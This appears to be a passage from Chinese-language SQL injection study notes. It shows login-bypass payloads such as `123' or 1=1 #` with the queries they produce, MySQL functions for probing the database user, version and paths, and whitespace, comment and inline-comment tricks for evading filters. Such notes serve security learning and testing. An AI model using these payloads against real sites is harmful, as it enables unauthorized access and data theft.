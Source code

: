     ```
    select 2-(select 1)
    select 4 div(select 3)
    ```

    




##### 漏洞利用手法

1. 利用 Sql 漏洞绕过登录验证

    > 利用注释符#和1=1的恒成立来绕过登陆验证

    一般情况下弱类型密码是很难手动爆破的，例如123

    但是若存在sql漏洞，在用户名中输入 `123' or 1=1 #`, 密码输入 `123' or 1=1 #`（也可空白），则可以验证成功

    实际执行的语句是：

    `select * from users where username='123' or 1=1 #' and password='123' or 1=1 #'`

    按照 Mysql 语法，# 后面的内容会被忽略，所以实际执行的语句如下

    `select * from users where username='123' or 1=1 `


    在用户名中输入 `123' or '1'='1`, 密码输入 `123' or '1'='1`（不加单引号会造成语法错误），实际执行语句如下
    
    `select * from users where username='123' or '1'='1' and password='123' or '1'='1`
    
    **or条件使and两端验证结果有一个成立即可都成立，从而绕过验证，无需使用注释符**

2. 自带函数来探测显位

        system_user() //系统用户名
        user() //用户名
        current_user //当前用户名
        session_user() //连接数据库的用户名
        database() //数据库名
        version() //MYSQL数据库版本
        @@datadir //读取数据库路径
        @@basedir //MYSQL 安装路径
        @@version_compile_os //操作系统

3. 空格和注释

    http中 `%20` ` ` `+` 都是空格

    mysql中 `%09` `%0A` `%0B` `%0C` `%0D`都是空白符，效果和`%20`一样，linux可能还支持`%A0`

    特殊符号，注释，也可以当

            select user() # 被注释的内容
            select user() -- 被注释的内容
            select/*被注释的内容*/user()
            /*!50000Select*/user()

    其中`/*!50000Select*/user()`为内联注释

    当mysql版本号 ≥ 5.00.00：注释内容会被执行，相当于 `Select user()`
